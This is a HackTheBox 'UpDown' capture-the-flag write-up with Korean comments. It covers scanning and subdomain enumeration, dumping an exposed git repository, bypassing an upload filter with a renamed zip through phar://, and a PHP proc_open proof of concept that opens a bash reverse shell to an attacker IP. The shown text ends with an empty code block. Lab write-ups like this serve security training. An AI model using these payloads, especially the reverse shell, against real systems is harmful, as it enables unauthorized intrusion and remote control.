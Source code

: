 ```yaml
---
layout: post
title: HackTheBox UpDown
subtitle: UpDown WriteUp
author: g3rm
categories: HTB
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
  - Linux
sidebar:
---
```



## Summary
![](assets/images/posts/2025-03-17-UpDown/1a290611f444e0d251233ed971a4f9f7_MD5.jpeg)
## Target - 10.129.227.227
### Nmap
```bash
nmap -sC -sV -Pn -p- 10.129.227.227 -o UpDown_AllPort
```

### WEB
```bash
# 호스트 등록
echo "10.129.227.227 siteisup.htb" | sudo tee -a /etc/hosts

# 디렉토리 탐색
gobuster dir -u siteisup.htb -w /usr/share/wordlists/dirb/common.txt
gobuster dir -u http://siteisup.htb/dev -w /usr/share/wordlists/dirb/common.txt

# 서브도메인 탐색
gobuster vhost -u http://siteisup.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain

# 서브도메인 호스트 등록
echo "10.129.227.227 dev.siteisup.htb" | sudo tee -a /etc/hosts

# git dump
git-dumper http://siteisup.htb/dev/.git dev

# config 보기
cat .htaccess
```

![](/assets/images/posts/2025-03-17-UpDown/284ba3fd6ad877528a4f3670a2f6ce5b_MD5.jpeg)
![](/assets/images/posts/2025-03-17-UpDown/3dad85a3644415a5b33e41cbffc9aec7_MD5.jpeg)

![](/assets/images/posts/2025-03-17-UpDown/a41302bb81f42bed44f2386fe38e06c2_MD5.jpeg)
![](/assets/images/posts/2025-03-17-UpDown/caba1c0c482717b28220a2be17b2c742_MD5.jpeg)

![](/assets/images/posts/2025-03-17-UpDown/fb818fef54497e9853afd3ea110a3218_MD5.jpeg)![](/assets/images/posts/2025-03-17-UpDown/3081fbcce96767472ac559c5c7d2bcd1_MD5.jpeg)

### phar:// Exploit
```bash
# 파일 필터링 로직 및 upload 경로 확인
cat checker.php

echo "<?php phpinfo(); ?>" > info.php
zip info.zip info.php
mv info.zip info.txt

http://dev.siteisup.htb/?page=phar://uploads/a4cb7397e7c127125e4af8261d1c8fef/info.txt/info
```
![](assets/images/posts/2025-03-17-UpDown/bf7036a51a5414ccfef2e795f8a45153_MD5.jpeg)
![](assets/images/posts/2025-03-17-UpDown/4fcc8fc91aad8d6b18d28968e621f56c_MD5.jpeg)
### dfunc-bypasser.py
```bash
# vi dfunc-bypasser.py 수정
phpinfo = requests.get(url, headers={"Special-dev":"only4dev"}).text

# 실행
python dfunc-bypasser.py --url http://dev.siteisup.htb/?page=phar://uploads/11d0d701df649f7c93b673db37e5c66b/info.txt/info
```
![](assets/images/posts/2025-03-17-UpDown/a031fa0acd34384e5287aa7bf3cf36fd_MD5.jpeg)
![](assets/images/posts/2025-03-17-UpDown/7e35d58b12f926a49afde5d26ee81e62_MD5.jpeg)

### proc_open Exploit
```php
# poc.php
<?php 
$descriptorspec = array(
0 => array('pipe', 'r'), // stdin 
1 => array('pipe', 'w'), // stdout 
2 => array('pipe', 'a') // stderr 
); 
$cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.36/9999 0>&1'"; 
$process = proc_open($cmd, $descriptorspec, $pipes, null, null); 
?>
```
```bash

```